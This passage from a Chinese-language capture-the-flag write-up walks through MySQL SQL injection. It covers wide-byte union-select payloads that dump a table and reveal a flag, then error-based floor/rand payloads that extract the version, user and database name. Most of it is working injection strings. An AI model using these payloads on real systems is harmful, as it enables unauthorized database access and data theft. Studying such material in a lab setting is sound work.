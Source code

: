 ### 脱库
```
%bf%27 union select 1,2,(select count(*) from pic),4 %23
```
pic中有3条记录

```
%bf%27 union select 1,2,(select  group_concat(picname) from pic),4 %23
```
得到pic中有3张图片:`dog1.jpg,cat1.jpg,flagishere_askldjfklasjdfl.jpg`

地址栏访问第三张图片, 得到flag.

<br />

# 六. ErrorBased
[参考](https://www.waitalone.cn/mysql-error-based-injection.html)

[参考](https://www.csdndoc.com/article/11255582)


## (1) 测试
测试:
```
?username=admin%27
```
有报错

尝试看结果
```
?username=admin%27 union select count(*),concat( floor(rand(0)*2), 0x2d2d2d, version(), 0x2d2d2d) x from information_schema.schemata group by x%23
```

## (2) 通过floor报错
查看数据库版本`5.6.42`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

查看当前用户`saeuser@14.116.224.8`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

查看当前数据库`mydbs`:
```
?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
